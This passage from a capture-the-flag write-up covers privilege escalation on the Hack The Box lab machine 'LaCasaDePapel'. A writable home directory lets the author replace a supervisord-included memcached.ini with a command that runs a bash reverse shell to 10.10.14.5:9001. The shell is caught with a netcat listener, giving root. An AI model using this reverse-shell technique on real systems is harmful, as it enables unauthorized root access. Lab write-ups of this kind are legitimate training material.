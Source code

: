```
2022/01/25 21:31:03 FS:               ACCESS | /home/professor/memcached.ini                                          
2022/01/25 21:31:03 FS:        CLOSE_NOWRITE | /home/professor/memcached.ini         
```
this means that somehow the configuration file includes the .ini file under the professor home directory.  
Now, all we have to do is to change memcached.ini file with a reverse shell.  
We can see that we cannot write memcached.ini and that it is owned by root.  
```
lacasadepapel [~]$ ls -la
total 28
drwxr-sr-x    4 professo professo      4096 Jan 25 21:38 .
drwxr-xr-x    7 root     root          4096 Feb 16  2019 ..
lrwxrwxrwx    1 root     professo         9 Nov  6  2018 .ash_history -> /dev/null
drwx------    2 professo professo      4096 Jan 31  2019 .ssh
-rw-r--r--    1 professo professo        88 Jan 25 21:38 mem.ini
-rw-r--r--    1 professo professo        88 Jan 25 21:38 memcached.ini
-rw-r-----    1 root     nobody         434 Jan 29  2019 memcached.js
drwxr-sr-x    9 root     professo      4096 Jan 29  2019 node_modules
```
Since this file is in the current user home directory which has the full permission on this, we can delete the file and create a new memcached.ini file (with new permissions) and waid for supervisord to trigger the execution.  
```
lacasadepapel [~]$ cp memcached.ini mem.ini
lacasadepapel [~]$ rm memcached.ini
lacasadepapel [~]$ cat mem.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
lacasadepapel [~]$ vi memcached.ini
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'
```
now, all we have to do is open a listening netcat connection and wait for the cron execution:
```
root@kali:~/Documents/HTB/Boxes/LaCasaDePapel# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.131] 44964
bash: cannot set terminal process group (28467): Not a tty
bash: no job control in this shell
bash-4.4#

bash-4.4# whoami
root
```
now that we are root, we can check the /etc/supervisord.conf to understand why the memcached.ini file gets included.  
```
bash-4.4# cat /etc/supervisord.conf
[unix_http_server]
file=/run/supervisord.sock

[supervisord]
logfile=/dev/null
logfile_maxbytes=0
user=root

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

[supervisorctl]
serverurl=unix:///run/supervisord.sock

```